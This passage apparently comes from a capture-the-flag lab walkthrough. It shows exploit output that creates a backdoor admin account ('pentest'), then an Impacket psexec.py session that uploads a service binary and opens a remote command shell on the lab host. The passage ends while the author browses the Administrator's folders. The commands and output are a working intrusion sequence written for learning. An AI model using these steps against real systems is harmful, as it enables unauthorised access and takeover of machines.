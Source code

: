 ```

 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 
 
```

Next was to use Impacket and these credentials to get a reverse shell on my machine.

```
┌──(thatvirdiguy㉿kali)-[~/impacket/examples]
└─$ python3 psexec.py pentest@10.10.10.152
Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file tNpYPVRZ.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service nFOo on 10.10.10.152.....
[*] Starting service nFOo.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd C:\Users
 
C:\Users> dir
 Volume in drive C has no label.
 Volume Serial Number is 0EF5-E5E5

 Directory of C:\Users

02/03/2019  07:08 AM    <DIR>          .
02/03/2019  07:08 AM    <DIR>          ..
02/25/2019  10:44 PM    <DIR>          Administrator
02/23/2022  02:56 AM    <DIR>          Public
               0 File(s)              0 bytes
               4 Dir(s)   6,765,756,416 bytes free

C:\Users> cd Administrator
 
C:\Users\Administrator> dir
 Volume in drive C has no label.
 Volume Serial Number is 0EF5-E5E5

 Directory of C:\Users\Administrator

02/25/2019  10:58 PM    <DIR>          .
02/25/2019  10:58 PM    <DIR>          ..
02/03/2019  07:08 AM    <DIR>          Contacts
02/02/2019  11:35 PM    <DIR>          Desktop
02/03/2019  07:08 AM    <DIR>          Documents
02/03/2019  07:08 AM    <DIR>          Downloads
02/03/2019  07:08 AM    <DIR>          Favorites
02/03/2019  07:08 AM    <DIR>          Links
02/03/2019  07:08 AM    <DIR>          Music
02/03/2019  07:08 AM    <DIR>          Pictures
02/03/2019  07:08 AM    <DIR>          Saved Games
02/03/2019  07:08 AM    <DIR>          Searches
02/25/2019  10:06 PM    <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)   6,765,486,080 bytes free

C:\Users\Administrator> cd Desktop
 
```